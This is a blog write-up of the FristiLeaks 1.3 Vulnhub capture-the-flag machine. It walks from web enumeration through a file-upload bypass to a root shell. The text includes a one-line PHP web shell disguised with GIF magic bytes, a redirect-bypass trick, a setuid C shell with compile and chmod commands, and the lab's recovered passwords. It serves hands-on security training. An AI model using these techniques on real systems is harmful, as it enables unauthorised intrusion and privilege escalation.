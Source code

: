 ```yaml
---
layout: post
title:  "FristiLeaks 1.3 Write-Up"
categories: [write-ups]
permalink: /write-ups/fristileaks_1.3_writeup/
---
```

FristiLeaks is an easy OSCP-like boot to root VM hosted on Vulnhub. The goal in this challenge is to obtain root in the box and read the flag.<br><br>
<h1>Port Scan</h1>
Normally, the first thing to do when dealing with Vulnhub machines is to scan the network (I use Nmap to do so) to find the IP of the vulnerable machine, 
but in this case the machine tells us its IP in the login prompt. 
![Port scan result](allPortsScan.png)

In the scan we can see that the only open port is 80, which usually is HTTP.
<br><br>
<h1>Port 80 Initial Enumeration</h1>
![Nmap output for port 80](port80Nmap.png)
In the Nmap output for port 80 using the default scripts we can see that robots.txt has three disallowed entries. Also, we can see that the webserver uses 
Apache httpd 2.2.15, PHP version 5.3.3 and the distribution is CentOS.
<br><br>
The root page of the web has nothing interesting at first glance, but there is this image which will be useful later.
![KeepCalm](KeepCalm.png)
Also, inside of the robots.txt file we can see the three disallowed entries.
![Robots file](robots.png)
All the disallowed entries have the same image saying "This is not the URL you were looking for" (I didn't get a screenshot of this). 
At this point I wasn't sure about what to do, as I didn't find any interesting vulnerabilities for the server and neither did both Nikto and gobuster.
<br>
Using a bit of guess work I found the directory fristi. All the entries in the robots.txt are drinks and, according to the image, fristi is also a drink. Maybe using a 
wordlist generated by CEWL and gobuster you can find the directory, but I didn't think about this when I was enumerating the box.
<br><br>
<h1>Fristi Directory</h1>
The index.php file of this directory is a login page which isn't vulnerable to SQLInjection (or at least I couldn't find it), but I found two different ways to
"bypass" it.<br>
<h2>First Method</h2> 
In the source code we can see some interesting comments.
![First commentary](fristiCom0.png) 
![Second commentary](fristiCom1.png)
![Third commentary](fristiCom2.png)
We get a possible username (eezeepz) inside of the first commentary and a base64 encoded image. If we decode it we can see that it is a PNG image.
![Decoding](decodeFristiImg.png)
![Decoded](decodedFristiImg.png)
Here we can guess that the user "eezeepz" has the password "keKkeKKeKKeKkEkkEk". A successful login redirects us to the "upload.php" page.
<br>
<h2>Second Method</h2>
Using gobuster with the .php extension we can find the "uploads" directory, which hasn't directory listing activated and "upload.php", which redirects us to the login page.
<br>
Intercepting the request to "upload.php" using BurpSuite we can see that there is more content below the redirection. If we rewrite the status code (302 FOUND) to 200 OK, we can see the upload page without knowing the credentials.
![BurpSuite request interception](burpIntercept.png) 
<br>
<h1>File Upload + RCE</h1>
The page only allows uploading images, but it can be bypassed easily. You just need to change the [magic bytes](https://en.wikipedia.org/wiki/List_of_file_signatures) to something that will be detected as an image, as well as using the correct extension.
<br>
I didn't try using the correct extension without changing the magic bytes, but it probably doesn't work. In my case, I used GIF87a as the magic bytes and created a really simple php shell to test if the RCE was possible.
{% highlight php %}GIF87a
#The echo is redundant, as system prints the output of the command executed.
<?php echo system($_REQUEST['cmd'])?> 
{% endhighlight %}
![Uploading of the shell](uploadShell.png)
![Correct upload](correctUpload.png)
This shell works pretty well, but it can't execute commands that need arguments (strangely, it works fine in my machine, hosting the shell using php -S localhost:8000).
<br>
To use it you just need to pass the command inside the cmd argument, it accepts both GET and POST requests. In my case, I executed the whoami command.
![Code execution](simpleRCE.png)
After I checked that the simple shell really worked, I uploaded a php reverse shell (the one inside /usr/share/webshells/php/php-reverse-shell.php on Kali) and set a listener on port 1234.
![Reverse shell](revShell.png)
<br>
<h1>Apache Shell</h1>
The first thing I did was upgrading the shell to a [more functional one](https://null-byte.wonderhowto.com/how-to/upgrade-dumb-shell-fully-interactive-shell-for-more-flexibility-0197224/).
![Shell upgrade](upgradingShell.png)
Inside the "checklogin.php" file we can get the hardcoded mysql credentials, but we can only read the username and the password required to access the "upload.php" page.
![Creds](mysqlCreds.png)
Inside the file located at "/var/www/notes.txt" there is an interesting message.
![Notes.txt 1](notes1.png)
If we go to the "/home/eezeepz" directory we can see lots of uninteresting files and another notes.txt.
![Notes.txt 2](notes2.png)
Essentially this is saying that we can run commands as another user. I found two ways to exploit this, but I only used the easiest as the other one was too time consuming.
<h2>First Method (not used)</h2>
Looking inside the "/usr/bin/" directory we can see the gcc binary, so I created a pretty simple C shell that uses the "setuid()" system call to run as another user.<br>
My idea is to upload the file to the box (using the http.server module in python3 to serve the file), make the other user compile the shell and setting the SetUID bit, as well as giving execute permissions to others.<br>
The shell that I used was really simple for the sake of saving time, but I could have used a more interactive shell if it was necessary.
{% highlight C %}#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
int main(int argc, char** argv) {
        if (argc != 3) {
                printf("Usage: ./shell <command> <uid>  (no arguments for the command)\n");
                exit(0);
        }
        int uid = atoi(argv[2]);
        if (setuid(uid) < 0) {
                perror("Setuid\n");
                exit(1);
        }
        if (execl(argv[1], argv[1],(char*) NULL) < 0) {
                perror("Error executing command\n");
                exit(1);
        }
}
{% endhighlight %}
Inside the "/tmp/runthis" file I wrote the necessary commands to do this and I read the uid from the "/etc/passwd" file, which I'm not including because it's too large.
{% highlight bash %}/usr/bin/gcc /tmp/shell.c -o /tmp/shell
/home/admin/chmod u+s /tmp/shell
/home/admin/chmod o+x /tmp/shell
{% endhighlight %}
![Shell permissions](shellPermission.png)
![Execution](shellExecution.png)
<br>
<h2>Second Method + PrivEsc</h2>
We can read the "/home/admin/" directory if we change the permissions using the "/tmp/runit" file and the chmod command.<br>
Inside this directory there are two seemingly encrypted files (cryptedpass.txt and whoisyourgodnow.txt) and a python script which encrypts them (I didn't take a screenshot of this, I don't know why).
<br>
The python script only base64 encodes the supplied password, then it reverses it and finally it encrypts it using the ROT13 method. If we reverse these steps, we can read the plaintext password.
![Crypted pass](cryptedPass.png)
![Whogod pass](whogodPass.png)
The first picture has the unencrypted text inside of "cyptedpass.txt", while the second has the text inside "whoisyourgodnow.txt".<br>
LetThereBeFristi! (inside whoisyourgodnow.txt) is the password for the fristigod user.
<br><br>
<h1>Root PrivEsc</h1>
Executing the "sudo -l" command as user fristigod and supplying the "LetThereBeFristi!" password outputs this:
![sudo -l output](sudoL.png)
And if we check the "/var/fristigod/.secret_admin_stuff/" we can see that the doCom binary has the SetUid bit and is owned by root.
![ls /var/fristigod/.secret_admin_stuff/](ls_fristigod.png)
Using the "sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom" command we can check the usage of this binary, which allows us to run commands as root.
<br>
Running the "/bin/bash" command grants us an interactive shell as root and then we can read the flag inside "/root/fristileaks_secrets.txt".
![Root privesc](rootPrivEsc.png)
<br>
<h1>Conclusion</h1>
This is a fairly easy box, although I got stucked for while at the first part because I didn't guess that fristi was the correct directory.
<br>
I've learnt how to use the setuid() system call, which I think is pretty useful and that I need to take more screenshots before reporting.
